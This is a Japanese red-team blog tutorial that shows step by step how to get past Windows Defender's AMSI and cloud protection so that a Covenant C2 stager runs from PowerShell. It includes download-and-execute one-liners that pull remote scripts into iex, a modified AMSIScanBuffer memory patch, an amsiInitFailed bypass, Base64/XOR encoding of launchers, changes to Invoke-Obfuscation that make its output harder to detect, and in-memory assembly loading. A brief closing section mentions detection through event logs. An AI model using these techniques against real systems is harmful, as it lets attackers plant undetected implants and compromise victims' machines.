





検知回避の手法 - PowerShell

しゅーと(@shutingrz)です。
前回の記事では実行ファイルにおいて Windows Defender のリアルタイムスキャン、クラウド保護の検知回避を試みました。
まだ読んでない方はぜひ読んでください。
AMSIの概念については前回の記事に記載しており、本記事では説明を省略しています。
今回はスクリプトの検知回避に挑戦し、Windows Defender のリアルタイムスキャン・クラウド保護がオンの状態で、PowerShell での Covenant Stager の起動、Gruntのアクティベーションを行うことを目標とします。
実行ファイルではなくスクリプトで挑戦するといっても、 Windows Defender の大きな検知ロジックは共通です。
ただひとつ大きな違いがあるのは、スクリプトのエンジンには必ず AMSI によるスキャンが含まれるということです。このことからアンマネージドコードを利用したAMSIバイパス利用できず、何とかして AMSI の悪性判定を回避しつつ AMSI バイパスを成功させる必要があります。
ただしAMSIが存在しないPowerShell v2を使うダウングレード攻撃という手法も存在します。
そのことを念頭に置いて次のセクションから学んでいきましょう。
留意事項
- 本記事はエージェントの確立までのアンチウイルスソフトの検知回避にのみフォーカスを当てて解説をしています。EDRの検知回避は範囲外です。
- 最初のほうはWindows Defenderの「クラウド提供の保護」および「サンプルの自動送信」をオフにしてください。この機能は一度検知されてしまうと、本機能をオフにしてもリアルタイムスキャンで同じ文字列を検知するようになってしまいます。後半ではこれらをオンにしたうえで検知回避をします。
PowerShell での検知回避
PowerShell は Microsoft の誇るスクリプト言語で、ランタイムで、プログラムです。Windows10 では PowerShell のバージョン 5 がデフォルトでインストールされており、PowerShell を利用することでコンピュータのあらゆる操作が可能になります。しかしその強力さゆえ攻撃者による悪用が絶たないことからアンチウイルスベンダーも監視を強めており、こんにちでは PowerShell プログラムを利用したという時点でフラグが立つアンチウイルスソフト/ EDR も存在します。しかしながらいまだに Office マクロ経由で Powershell コマンドを実行させたり(Emotetなど複数マルウェア)、 powershell.exe を使わず PowerShell ランタイムを用いて Post-Exploitation用 PowerShell コードを利用する手法が存在しており(self contained custom PowerShell)、Red Team ではいまだに何らかの形でよく利用されます。
本記事ではまず基本として、powershell.exe において Windows Defender を回避して Stager を動かすことを目標とします。
Windows Defender の検知ステップ
（図を確認しながら下の文章を読んでください）
例えば"iex DownloadString('http://example.com/evil.ps1')“というコマンドレットを含むps1ファイルがある場合を考えます。。
まずファイルが存在する場合は、ファイル作成時にアンチウイルスソフトがファイルを検査します。
次に PowerShell で実行されたとき、PowerShellはファイルに含まれるコマンドレットを順次実行していきます。
iex は Invoke-Expression の省略表現で、引数として存在する文字列を PowerShell コマンドレットとして評価し実行します。プログラミング言語でよくある「eval」です。引数は Net.WebClient.DownloadString メソッドで、その引数として Stager のps1ファイルを指定しているとしましょう。このメソッドは指定したファイルをダウンロードし中身を文字列として扱うものです。さらにメソッドが括弧()で囲まれているため、メソッドの返り値が文字列展開され、ダウンロードした ps1 ファイルの中身が Invoke-Expression の引数として扱われます。結果として evil.ps1 に含まれるコードが実行されます。
evil.ps1 の中に” iex (‘[Refrection.’+’Ass’+’embly]::’+’Load(“evil.dll”)’) “というコマンドレットが存在するとき、PowerShell は AMSI を通してアンチウイルスソフトに文字列をスキャンさせます。そのあと、文字列は分割されていますが、iexに引き渡されるころには結果として”[Refrection.Assembly]::Load(“evil.dll”)“という文字列になっています。
さらに現在の PowerShell は、IEX に渡される結合後(難読化解除後)のコードも AMSI を通してアンチウイルスソフトにスキャンさせます。
最後に、"[Refrection.Assembly]::Load “によって、指定した .NET アセンブリがロードされます（Assembly.Load()と同じ動きです）。このとき、AMSI.dll の AMSIScanBuffer を通じてアセンブリをアンチウイルスソフトにスキャンさせます。
これらのスキャン過程でファイルが無害と判断された場合、すべてが正常に完了します。
PowerShell コンソールでの Stager の起動
Covenant では Launcher 画面に PowerShell Launcher が存在しており、ここから PowerShell 用の Stager を取得可能です。
※Covenantのインストール方法や使い方はここでは説明しません。Googleで検索すれば日本語記事が出てくるので、それを読むと良いでしょう。
試しに Stager を動かす
まずはリアルタイムスキャンを無効にしたうえで、実際に Grunt がアクティベーションされることを確認しましょう。
PowerShell Launcher にてGenerate ボタンを押すことで Stager のコードを含んだ PowerShell ワンライナーが生成されます。 EncodedLauncher のテキストボックスをコピーしPowerShellプロンプトに貼り付け、実行しましょう。
なお”-Window Hidden“オプションは実行後ウインドウが消えてしまいます。バックグラウンドプロセスで動作するためステルス性が高まりますが、検証時には煩わしいためオプションを削除してから実行することをお勧めします。
実行すると Grunt がアクティベーションされます。
また、プロンプトでワンライナーを行わなくとも、外部からps1ファイルをダウンロードし実行させることでも Stager を実行可能です。
外部から Stager をダウンロードし実行する
PowerShell Launcher の Host タブにて、Urlテキストボックスに「/ps_original.ps1」という文字列を入力して Host ボタンを押し、Stager の ps1ファイルをホスティングしましょう。
ホスティングすると、同じく Host タブ下部 にある Launcher のテキストボックスが ps1ファイルをダウンロードして実行するようなコマンドに変化します。それをコピーして PowerShell コンソールに貼り付け、実行します。
powershell -Sta -Nop -Command "iex (New-Object Net.WebClient).DownloadString('http://192.168.11.254/ps_original.ps1')"
実行すると、Grunt がアクティベーションされます。
このコマンドレットによってダウンロードされるps1ファイルはディスクには保存されずメモリ上に展開されるため、リアルタイムスキャンのファイル検知、クラウド保護のファイル検知に検知されません。いわゆるファイルレス手法です。
リアルタイムスキャンをオンにして試す
では次にリアルタイムスキャンをオンにしてワンライナー同様の操作を行ってみましょう。
ただし、クラウド保護、ファイル送信はオフのままにしてください。
検知され、実行に失敗しました。これは AMSI を通じて Windows Defender に検知されたことを示します。ただここで注目してほしいのは、検知されたポイントは DownloadString そのものではなく、ダウンロード後に展開された Stager コード部分であるという点です。
iex : 発生場所 行:1 文字:1
+ sv o (New-Object IO.MemoryStream);sv d (New-Object IO.Compression.Def ...
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
このスクリプトには、悪質なコンテンツが含まれているため、ウイルス対策ソフトウェアによりブロックされています。
つまり、初発の DownloadString で ps1 ファイルをダウンロードし iex で実行すること自体は、AMSIで検知されないということです。これは、外部からps1ファイルをダウンロードして実行するという行為が攻撃以外でも使われることがあるためです。これを利用する無害なソフトウェアの例として、Windows 上で動作するパッケージ管理ソフトウェア「chocolatey」のインストールスクリプトがあげられます。
このように PowerShell は使い方によっては毒にも薬にもなるため、アンチウイルスベンダーも大変な思いをしているのです。
AMSI バイパス
PowerShell を用いた侵害は、DownloadString と Invoke-Expression の組み合わせによってファイル検知を無視することができます。よって AMSI バイパスを行うだけで Windows Defender の検知回避は完了します。
ただ重要なのは、AMSI バイパスのコードと Stager のデリバリーのタイミングです。
何も考えずに AMSI バイパスコードと Stager を同梱した ps1 ファイルを作成しても、AMSI によって検知されます。
それなら全て検知されないようにAMSIバイパスコードとStagerを難読化しよう！と考えるかもしれません。はい、可能です。あなたがエキスパートならそれが一番スマートですが、難読化を解除するコードだったり、検知テスト検証の煩雑さから、初めからそれに挑戦するのはオススメしません。
Invoke-Obfuscation の利用について
PowerShell スクリプトを簡単に難読化できる Invoke-Obfuscation というツールがあり、複数の文献で積極的に紹介されています。ただ現在ではこのツールで難読化されたコードは Windows Defender にて検知されることが多くなっているため、使い方には注意してください。
それならまずは下の方法はいかがでしょうか。「AMSI バイパスを行い、Stagerをダウンロードし実行する」ps1ファイルと、Stagerのps1ファイルの2つを用意します。AMSIバイパスコードの検知回避さえできれば、そのあとにダウンロードし実行する Stagerスクリプトは AMSI バイパスによって常にクリーンになるため、検知されなくなります。この手法の短所はステージングにかかる回数が1回分増えることです。
今回はこの方法を使って、検知回避について学びます。記事の最後になれば1ファイルで完結する方法も作れるようになると思いますよ。
バイパスコードの検知回避テクニック
AMSIバイパスの原理と手法はいくつか存在し、phra氏のブログがメリットデメリットを合わせてわかりやすく説明してくれています。
また、AMSIバイパスコードの検知回避の原理についてもShitSecure氏のブログが非常によくまとまっており、二番煎じになってしまうのでこれも省略します。簡単にいえば、原則としてアンチウイルスベンダーによって AMSI のトリガーは千差万別であるものの、その多くは文字列マッチング（正規表現含む）によるものであり、エンコーディングや文字列を分割し「+」で結合、はたまた順番を入れ替えるテクニックなどを行うことで検知回避を行えるというものです。
なおバイパスコードの検知回避を確実に行いたいならば、侵入先 PC の利用しているアンチウイルスソフトを用意し、ブログでも紹介されている PowerShell に特化した AMSI 検知確認ツール「AMSITrigger」(1行ごとにAMSIScanBufferに投げるもの)を使って検知回避の検証を行うしかありません。
もちろん AMSI プロバイダがサンドボックスのようなもので AMSI 関連を操作する挙動を特定し検知することもありえるので注意が必要です。
他にもよくある方法として、コードを分割し順序を入れ替えたり、エンコードしたうえで Invoke-Expression (IEX) で実行する難読化手法があげられます。この手法は昔は有効でしたが、今の PowerShell の AMSI エンジンは IEX 内部の難読化解除後のコードをスキャンするようになっているため、この方法を使った検知回避は限定的です。
amsiInitFailed を用いたバイパスと注意点
PowerShell において AMSI バイパスを行う一番有名な方法として、AmsiUtils クラスの amsiInitFailed 変数を true にして AMSI を停止させる手法があります。これは PowerShell において amsiInitFailed 変数が true だとコマンドレット実行時、AMSI がチェックを行わなくなる仕様を悪用したものです。バイパス手法には「1. 何らかの方法で AMSI のエラーを引き起こして true にする」タイプと、「2. リフレクションを使って実際に amsiInitFailed 変数そのものを true に設定する」タイプがあります。この手法は現在の PowerShell でも有効ですが、当然ながら未加工のバイパスコードだと AMSI によって検知されます。そこで難読化されたコードを作成する方法として手動で難読化するほか、上記のShitSecure氏のブログでは「AMSI.fail」というサイトが紹介されています。
ワンクリックで AMSI バイパスを行う処理を動的に難読化したコードを生成してくれます。利用する詳細テクニックはランダムに選ばれますが、原則として amsiInitFailed を true にして AMSI を使わないようにさせる手法が使われます。PowerShell において Windows Defender で検知を回避できる AMSI バイパスコードが欲しい場合はこれを使うと良いでしょう。
作者のGithubには AMSI.fail のソースコードがありますが、Azure Functionとして実行する形式になっています。私はこれを .NET 4 + PowerShell v5 で実行できるように変更して利用しています。
https://github.com/shutingrz/AMSI.fail4
しかしこの方法は、最終的に .NET アセンブリをドロップさせるパターンでは意味がありません。
この手法は、 “PowerShellランタイム” において AMSI を動作させるかどうか決める変数を変えているだけなのです。
.NET 4.8 から AMSI は PowerShell だけではなく、読み込まれる.NET アセンブリをチェックする機能を備えるようになったため、もうひと手間の工夫が必要です。
Covenant の Stager PowerShell コードを読めばわかるとおり、Stager は最終的にコード内で [Refrection.Assembly]::Load (C#でいう Assembly.Load)を使って.NETアセンブリを読み込んでいます。Assembly.Load() が呼び出されたとき、AMSI は独立してアセンブリを AMSIScanBuffer に渡してチェックを行うため、 amsiInitFailed を用いたバイパスは効果がありません。
よって amsiInitFailed を使った AMSI バイパス手法は PowerShell のコードに有効ですが、.NETアセンブリを読み込むAssembly.Load() には無力であると覚えておきましょう。
AMSIScanBuffer へのメモリパッチ
前回の記事でも利用した方法がこちらです。PowerShell プロセスに読み込まれる AMSI 機能の実態である amsi.dll に存在する AMSIScanBuffer の関数アドレスの先頭を、常に安全なコードであることを示す「AMSI_RESULT_CLEAN」(0x80070057)を返すように、以下のオペコードでパッチします。
mov eax,0x80070057
ret
こうすることでAMSIは全てのコンテンツをAMSIプロバイダーに渡さずに即座にクリーンと誤認します。詳しくはRastaMouse氏のブログ投稿をお読みください。
これを使うことで、Powershell プロセスにおける全ての AMSI 関連機能が無害化されます。
バイパスコードと検知回避
AMSIScanBuffer を用いた AMSI バイパスには、RastaMouse氏の AMSIScanBufferBypass (ASBBypass) を利用することにします。
ASBBypass には PowerShell 実装と C# 実装が存在します。Powershell で使うなら PowerShell 実装が一番楽です。

ただし、当然ながらこのコードをそのまま使うと AMSI によって検知されます。
前回の実行ファイルの検知回避ではアンマネージドコードを利用することで、AMSIによるチェックなしにAMSIバイパスができましたが、今回はPowerShell上で行うため検知回避が必須です。
検知状況の確認にはAMSITriggerがお勧めです。このツールはテキストあるいはURLを指定してデータを AMSIScanBuffer に送信することで、どの部分で検知されたかを可視化してくれるツールです。本記事ではよく使うのでダウンロードしてください。
AMSITriggerで赤く表示されたコードを中心に、処理を変えないように表現を変え、そして変えたファイルに対して改めて AmsiTrigger をかけていくことを繰り返して、最終的に検知回避されたコードを作成していきます。
文字列を変化させるような検知回避手法についてはShitSecure氏のブログ(再掲)に記述されており、複数の正解があります。やり方は読者のあなたに任せるとして、私はパッチする内容を変化させるFat氏の投稿を参考に検知回避を試みました。
AMSIScanBuffer の文字列は hex に変化させる単純な置換で、肝心なメモリパッチのアセンブリは以下にしました。
xor eax,eax
add eax,0x1000cafe
add eax,0x70063559
ret
結局 0x80070057 を ret するようなアセンブリであれば何でもいいのです。皆さんも好きなアセンブリを作ってバイパスをしてみましょう。
作成したコードを AMSITrigger にかけると検知されませんでした。実際に PowerShell でバイパスしたあと WinDbgでAMSIScanBufferの関数アドレスを表示すると、先頭のアセンブリが変わっていることがわかります。
試しにWinDbgでAmsiScanBufferのretにブレークポイントを仕掛けて、raxの値が 0x80070057 になり、検知が回避されることを確認しましょう。ちなみに「amsiscanbuffer」という文字列は PowerShell で実行すると、通常は AMSI によって検知され、ブロックされた旨のエラーが表示されます。
パッチ後はrax に 0x80070057 が格納されており、PowerShellの実行結果でも「amsiscanbuffer」が検知されていないことがわかります。
これまでAMSIバイパスを図で表すと、以下になります(2つのCLEANの部分)。
難読化ツールを使わなくても AMSI を検知回避しつつ AMSI バイパスをするコードができました。（ただしクラウド保護はオフの状態で。）
Pre Stagerの作成
AMSI バイパスコードができあがったので、AMSIバイパスしたうえでStagerをダウンロードし実行する、「Pre Stager」を作成します。といっても、作成したAMSIバイパスコードの下に Stagerをダウンロードし実行するコードを追記するだけです。
iex (New-Object Net.WebClient).DownloadString('http://192.168.11.254/ps_original.ps1')
しかし、ここでも注意点があります。
クラウド保護の動的シグネチャ作成に注意
DownloadString + IEX の組み合わせはそれ自身ではアンチウイルスソフトには検知されませんが、一度 DownloadString でダウンロードしたファイルが AMSI によって検知された場合、Windows Defender は一定時間、該当ホストから DownloadString でダウンロードして iex を実行させるようなコードを全てブロックするような挙動を示します。
わかりやすい例を示しましょう。下の画像を見てください。
該当URLの中身は Hello! と出力するだけの無害なファイルにも関わらず、DownloadString のコマンドレットの時点で検知されています（ps1ファイルのダウンロードもしません！）
これはクラウド保護の動的シグネチャ作成機能によるものです。シグネチャの検知条件となる文字列の選定は機械学習によって生成されるようですが、この場合は大抵検知箇所として、iex からURLのホスト名である 192.168.11.254/までの文字列が検知対象になっている模様です。なお他のホスト名には問題なくアクセスできました。
検知されてしまった場合は、クラウド保護の動的シグネチャ作成がどの範囲に及んでいるか確認するため、利用している AMSI バイパスコードの検知テストも行うようにしてください。
そのため仮に顧客上の侵入先PCでこのようなコマンドを実行させるとき、検知された場合は一定時間サーバに一切アクセスできなくなり、Red Teaming 上の失敗につながる可能性があります。
さらに検証した結果、動的作成されるシグネチャはいわゆる「べた書き」されたコードが対象とされ、動的に作成されたコードは対象外のようです。そのため、本番時は検知されないようにするのはもちろんのこと、検知時のリカバリのために initial access で用いるコマンドライン引数は使い捨てを前提とし、またコード中に使われるURL などの文字列は難読化あるいは暗号化して利用したほうがいいでしょう。
ということで、DownloadString + IEX のコマンドは Base64 エンコード + XOR で暗号化するか、文字列結合を駆使して難読化しましょう。
オリジナルのInvoke-Obfuscation を使いたいときは、必ず AmsiTrigger を使って難読化後のコードに対して検知テストをしてください。（そのままだと検知されるパターンが割とあります）
Base64 + XOR で暗号化するコードは以下です。0x64 は好きなバイトに、<paste here>は対象コードに変えてください。
$key = 0x64;
$str = "<paste here>";
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($str);
$enc = foreach($byte in $Bytes){$byte -bxor $key};
[Convert]::ToBase64String($enc) | clip
なお復号コードとして以下を使います。
$key = 0x64;
$payload = "<paste here>";
$Bytes = [Convert]::FromBase64String($payload);
$dec = foreach($byte in $Bytes){$byte -bxor $key};
iex ([System.Text.Encoding]::Unicode.GetString($dec))
復号コードをAMSIバイパスコードの下に追記しファイルを保存。
Covenant の Listener ページから、当該リスナーにアップロードしホスティング。

/ps_original.ps1 は記事の初めのほうにホスティングした Stager の ps1 ファイルです。
Path を「/pre_stager.ps1」に設定し、作成したファイルをアップロードし準備完了です。
実行
それでは改めてリアルタイムスキャンをオンの状態で（クラウド保護はオフ）、pre_stager.ps1 をダウンロードし実行するコードを実行しましょう。
iex (New-Object Net.WebClient).DownloadString('http://192.168.11.254/pre_stager.ps1')
この文字列を同じように Base64 + XOR で暗号化し、さらに復号 + IEX を行うコードを作成し、それをさらに Base64 エンコード化します（3重の構成）。
なお Base64 エンコードするコードは以下です。
$str = '<paste here>'
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($str)
[Convert]::ToBase64String($Bytes) | clip
PowerShell の -EncodedCommand オプションは UTF-16LE でエンコーディングされた文字でないと受け付けないので、他のプログラミング言語でエンコードする際は注意が必要です。
出来上がった文字列で実行。
powershell -sta -nop -ec JABrAGUAeQAg(..snip..)ZABlAGMAKQApADsA
無事、実行することができました。
クラウド保護の検知回避
前項ではクラウド保護がオフの状態で、Grunt のアクティベーションができるようになりました。
では次にクラウド保護をオンにして、もう一度やってみてください。

ああ、検知されてしまいました。
例外発生箇所の「$Win32 = @"」の内容から、ダウンロードしたpre_stager.ps1に含まれるASBBypass のコードで検知されていることがわかります。
AMSITrigger で検知された文字列を確認します。
VirtualProtect からMarshal::Copyの範囲で検知され、動的シグネチャ作成が作成されたようです。
通常プログラムでこれらの文字列が含まれるのは滅多にないので、この部分を検知されるのは妥当です。
拡大するシグネチャ検知
VirtualProtect からMarshal::Copyのコードがまとまっているからダメなのでしょうか？それではこれらを別の場所に散らばせてみましょうか・・・？
変更して、AMSITriggerを再度実行します。
うわ！大惨事になってしまいました。もともと別の部分は問題なかったのに、散らばせたせいで検知されていなかったものも検知されるようになってしまいました。そう、こういった小手先のテクニックでは動的シグネチャの検知範囲が広がる恐れがあるのです。
前の記事も記載したように、動的シグネチャの文字列は、一定期間たてば検知対象外に戻る模様です。
こうなってしまうと、一定期間は作成したほとんどのコードが検知されてしまうので、コードを全て作りなおさないといけません。
自動難読化
このようにスクリプトにおけるWindows Defenderのクラウド保護は強烈で、少しでも検知されてしまうと他のコードまで動的シグネチャ作成されてしまいます。
つまり、我々が手動でコードをちまちま修正したところで、少しでもクラウド保護の気分を害すると、たちまち検知され、コードが使い物にならなくなるのです。
これを防ぐため、ちまたの攻撃者や Red Teamer は各スクリプトを使い捨て前提で自動で難読化するようにしています。
Invoke-Obfuscation による難読化と検知
こういったときに便利なのがPowerShellスクリプトの難読化ツール「Invoke-Obfuscation」です。少し前までは攻撃者や Red Teamer は Invoke-Obfuscation を使っていました。
しかし残念なことに、本ツールは2019年で更新が停止しており、さらにそのままだとWindows Defenderに容易に検知されるようになってしまいました。
Invoke-Obfuscation で作成した難読化コードが AMSI で検知される様子
これは、難読化後コードにInvoke-Obfuscation でよく使われる特徴的な難読化コードが含まれており($env:ComsEpec ...)、アンチウイルスソフトが検知しているものです。
攻撃者たちはこれを避けるため、独自の難読化ツールを作成しています。確かに難読化ツールを自作すれば難読化ツール特有の文字列で検知されることはありません。
ただし Invoke-Obfuscation のstring機能による難読化は、いくつかの特徴を削除することで、難読化状態の検知を回避することができます。
しかし string は 文字列の順序替え・結合に IEX を利用しています。はじめの方に説明したとおり、現在の PowerShell AMSI は IEX に渡される難読化解除後の文字列でもスキャンを行います。そのため静的に検知回避できたとしても、実行時にはアンチウイルスソフトに検知されてしまいます。
Token による難読化は？
Invoke-Obfuscation の Token 難読化はよりステルスだとされます。しかしこれを使ってpre_stagerを難読化しても、バイパスコードの場合は検知されてしまいます。
AMSIScanBufferをパッチするバイパスコードは Win32 APIを利用することもあり、難読化しても非常に検知されやすい特徴をもっているのです。（Windows Defender の機械学習エンジンが優秀ということもあります） これをみてわかるとおり、クラウド保護の PowerShell 用 スキャンエンジンは非常に強固であり、生の PowerShell を用いて メモリパッチするタイプの AMSI バイパスはそのままでは使い物にならないといってよいでしょう。
amsiInitFailed を用いた AMSI バイパスと併用する
ここでどう検知回避するか、これは Red Teamer でも情報が共有されていないため、調べても正解はありませんでした。
そこで私は amsiInitFailed タイプの AMSI バイパスと併用する手段を考えました。
amsiInitFailed タイプのバイパス手法は全てが PowerShell 領域で完結するコードであるため、難読化コードが検知されにくいです。これは amsi.fail で生成されたコードが全く検知されないことからも明らかです。
しかし最初に説明したとおり、amsiInitFailed タイプの AMSI バイパスは Assembly.Load() における AMSI のバイパスはできません。そこで、amsiInitFailed タイプをコードの初めに記載し、 PowerShell 空間での AMSI バイパスを実現します。次に AMSIScanBuffer パッチタイプを次の行に書いて Assembly.Load() を含めた完全なバイパスを行います。
amsiInitFailed タイプの AMSI バイパスで IEX による難読化解除後の検知がバイパスされるので、 AMSIScanBuffer バイパスコードはダウンロード時の難読化状態のみがスキャンされます。これなら IEX を使った難読化が有効に動作します。
コード変更による検知回避の試み
今までの説明をもとに、検知回避を試みます。
1. Invoke-Obfuscation の修正
まずは Invoke-Obfuscation の修正です。今回は string 難読化の修正を行うため、Out-ObfuscatedStringCommand.ps1 を変更します。
InvokeExpressionSyntax
881 ~ 886行目の InvokeExpressionSyntax をコメントアウトします。これは IEX の代替表現ですが、この表現は特徴的であり、Invoke-Obfuscation を使ったことを示すインジケータとなってしまいます。
SetOfsVarSyntax, SetOfsVarBackSyntax

751, 775, 802 行目の JoinOptions をコメントアウトします。このコードも難読化のバリエーションを増やすシンタックスですが、「Variable:OFS」「‘OFS’」という Invoke-Obfuscation 特有の表現が使われています。
このコードを消すことによって、string 難読化は検知されにくくなります（ただし完全ではない）。
2. pre_stager.ps1 の修正
記事の中盤で作成した、AMSIバイパスコードとStagerのダウンロード・実行コードを含むpre_stager.ps1も変更を加えます。
2-a. 検知されそうなコードのBase64エンコード
AMSITriggerで確認したように、VirtualProtect から Marshal::Copy までのコードは通常のPowershellコードでは稀であり、string 難読化してもアンチウイルスソフトに検知される可能性があります。
そのため、この3行は行ごとにBase64 エンコードしておきましょう。はじめにamsiInitFailedでAMSIバイパスを行うことから、 IEX 難読化解除後の文字列はスキャンされないので問題ありません。お好みで XOR 暗号化してもよいです。

2-b. string 難読化
Out-ObfuscatedStringCommand を用いて pre_stager.ps1 を難読化します。出力ファイルは「pre_stager_enc.ps1」とします。
> Import-Module .\Invoke-Obfuscation.psd1
> Out-ObfuscatedStringCommand -Path pre_stager.ps1 > pre_stager_enc.ps1
2-c. amsiInitFailed コードの追加
amsi.fail にて難読化された amsiInitFailed バイパスコードを生成し、 pre_stager_enc.ps1 の1行目に追加します。
2-d. AMSITrigger で検知テスト
リアルタイムスキャン、クラウド保護をオンにして、 AMSITrigger で pre_stager_enc.ps1 を検知テストします。
クラウド保護が検知しなければ、1行目の amsiInitFailed バイパスで 2行目以降の IEX は検知しないため問題ないとわかります。
もし検知された場合は Out-ObfuscatedStringCommand の難読化で検知されたと思われるため、ステップ2-b からやり直してください。
実行
検知テストが済んだ pre_stager_enc.ps1 を再度 Covenant の Listener にアップロードします。そして記事の中盤でやったものと同じように、pre_stager.ps1 をダウンロードし実行するコマンドラインを作成します。
コマンドラインの生成方法は覚えていますか？わからない場合は記事を読み直してください！
※ファイルパスは「/pre_stager.ps1」にしておくと、中盤で作成したコマンドライン引数を変える必要がないので楽です。
準備ができたら実行しましょう。
検知回避に成功しました！
Adv: さらなるステルス化の試み (Add-Type未使用)
ここまででもWindows Defenderの検知を回避することができますが、ステルスのためにまだやれることがあります。
Add-Type による cs ファイル生成に注意
ASBBypass は PowerShell 内で C# コードを作成し、 Add-Type コマンドレットによって C# コードをコンパイル・実行して Win32 API を呼び出していました。しかしながらこれを用いるとステルス性に問題が発生します。
Add-Type を使うと C# コードの場合、PC 内部でコードのコンパイルが行われます。そのときコンパイル対象の C# コードは実行ユーザの Temp フォルダに保存されてしまうのです。
これでは完全なファイルレスとは呼べません。csファイル作成を避けるには Add-Type を使わない方法を考える必要があります。そこで Powershell 内で Add-Type を使わず Win32 API を使う方法として、 .NET アセンブリを ps1 ファイルに内蔵し、Assembly.Load() で読み込む方法があります。
Win32API 定義だけをアセンブリ化する
ネット上に記載されている AMSIBufferBypass のインメモリパッチ手法は、全てのバイパスコードを cs で作成しアセンブリ化し、Load しています。しかしその手法だと Assembly.Load() の際、AMSI を通したアンチウイルスソフトとの検知回避バトルが発生します。
それを避けるため、私は Win32 API 定義だけをアセンブリ化することにしました。こうすることによって、Win32 API 定義だけでは不審ではないので検知されず、また ASBBypass のパッチコードは amsiInitFailed バイパス + string 難読化によって検知されません。
Win32 クラスアセンブリの作成
まずは ASBBypass に含まれる Win32 クラス定義の部分を win32.cs として保存します。
次に csc.exe で csファイルをコンパイルし、win32.dll を作成します。
PS > C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe -target:library win32.cs
dll ファイルを Base64 化し、クリップボードにコピーします。
PS > $filename ="win32.dll"
PS > [Convert]::ToBase64String([IO.File]::ReadAllBytes($filename)) | clip
これを Assembly.Load で正常に読み込まれるかチェックをしましょう。
PS > $dat = "TVqQAAMAAA(..snip..)AAAAAAAAAAAAAAAAAAAAAAAA="
PS > [Reflection.Assembly]::Load([Convert]::FromBase64String($dat))
GAC Version Location
--- ------- --------
False v4.0.30319
PS > [Win32]
IsPublic IsSerial Name BaseType
-------- -------- ---- --------
True False Win32 System.Object
正常に読み込まれることを確認したので、pre_stager.ps1 の該当箇所を置き換えます。
これで完成です。
実行
実際にコードを実行し、cs ファイルが生成されないことを確認しましょう。
勝利です！
まとめ
今回は Covenant Stager の PowerShell ランチャーを例にして Windows Defender のスクリプト検知回避および AMSI バイパスについて学びました。また応用編として、Add-Type のクラス定義を .NET アセンブリ化して読み込むファイルレス化手法についても触れました。
実際の Red Teaming では直接 ps1 ファイルをターゲット環境に置いて実行させることはなく、initial access には Office マクロファイルを使うようです（よくわかりませんが）。ただ Office VBAで powershell プロセスを実行させることを容認するのであれば、VBA 上で Powershell のコマンドラインに今回作成したものを用いることですぐに Red Teaming に利用できます。
またOffice VBAやVBScriptなどの検知回避に用いられるGadgetToJScriptの原理とチュートリアルについては、以前私が記事を作成しました。お時間があればこちらもご覧ください。
検知
Windows Defenderの検知回避ができたとはいえ、PowerShellの悪用は複数の観点で検出が可能です。
一番検出しやすいのは Windows イベントログでしょうか。
https://www.crowdstrike.com/blog/investigating-powershell-command-and-script-logging/
スクリプトのログは予めグループポリシーでモジュールログの有効設定が必要なことと、どのような文字列を不審と判断させるかなど、複数のハードルがありますが、特にログ記録の回避をしていない本記事に対する対抗策としては有効と考えられます。
その他
本記事も前回と同様、2020年10月に作成したものです。
内容が多かったのでやっぱり同人誌にしておけばよかったかな・・・。
以上。